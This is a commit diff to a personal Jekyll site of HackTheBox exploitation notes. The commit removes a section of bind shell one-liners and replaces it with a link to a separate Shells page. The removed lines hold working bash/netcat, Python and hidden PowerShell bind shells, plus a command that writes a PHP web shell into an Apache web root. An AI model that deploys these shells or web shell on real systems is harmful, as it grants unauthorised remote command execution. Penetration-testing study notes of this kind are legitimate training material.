

Before and after one commit to HenryEarl/HenryEarl.github.io, a Jekyll site: the page built from docs/HowToDocs/HackTheBox/Exploitation/index.md, in a window 1280 px wide. Shown: the top 680 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
shellsv2

````diff
--- a/docs/HowToDocs/HackTheBox/Exploitation/index.md
+++ b/docs/HowToDocs/HackTheBox/Exploitation/index.md
@@ -2,26 +2,4 @@
 title: Exploitation
 ---
 
-Bind Shells
-
-```bash
-rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
-```
-
-```python
-python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
-```
-
-```powershell
-powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
-```
-
-## Writing a bind shell
-
-Example:
-
-Linux host running Apache, write a PHP shell.
-
-```php
-echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
-```
+[Shells](./Shells)
````
